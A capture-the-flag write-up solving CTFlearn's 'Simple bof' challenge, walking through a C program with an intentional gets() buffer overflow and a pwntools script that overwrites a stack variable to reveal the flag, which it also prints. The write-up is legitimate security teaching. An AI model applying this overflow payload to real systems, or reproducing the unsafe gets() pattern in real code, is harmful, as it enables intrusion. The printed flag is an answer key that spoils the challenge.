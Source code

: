 ## Simple bof
The main idea of finding the flag is Buffer Overflow.

#### Step-1:
After I netcat into `nc thekidofarcrania.com 4902` I got this:

<img src="1.png">

#### Step-2:
Also we are given this `bof.c` which is given as follows:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Defined in a separate source file for simplicity.
void init_visualize(char* buff);
void visualize(char* buff);
void safeguard();

void print_flag();

void vuln() {
  char padding[16];
  char buff[32];
  int notsecret = 0xffffff00;
  int secret = 0xdeadbeef;

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff); 

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff); 

  // Check if secret has changed.
  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } else if (notsecret != 0xffffff00) {
    puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  } else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  } else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
  }

  exit(0);
}

int main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  safeguard();
  vuln();
}
```

#### Step-3:
To begin with, we are given 2 character arrays - one with size 16 (padding) and one with size 32 (buff). After the  `printf` call, the program uses `gets` and copies the content in the buff character array, and mere presence of `gets` makes it very vulnerable to buffer overflows attacks. Also, we do a check to see if secret is equal to  `0x67616c66`. Because the secret variable is defined after the buff variable we might be able to overwrite the contents of that variable to what we want, which in this case is this value: `0x67616c66`.


#### Step-4:

So, I wrote the following script `exploit.py` to perform Buffer Overflow to get the flag.
Here, `secret` is the string which we want to overflow with value which we want to overwrite. Also `p32()` function packs the value in a little endian format.

```py
from pwn import *

padding = b"\x41" * 48
secret = p32(0x67616c66)

p = remote("thekidofarcrania.com", 35235)
p.recv()
p.sendline(padding + secret)
p.interactive()
```

#### Step-5:
On execution of this script using `python3 exploit.py`, we get the following output:

<img src="Flag.png">

#### Step-6:
Finally, the flag becomes: 
`CTFlearn{buffer_0verflows_4re_c00l!}`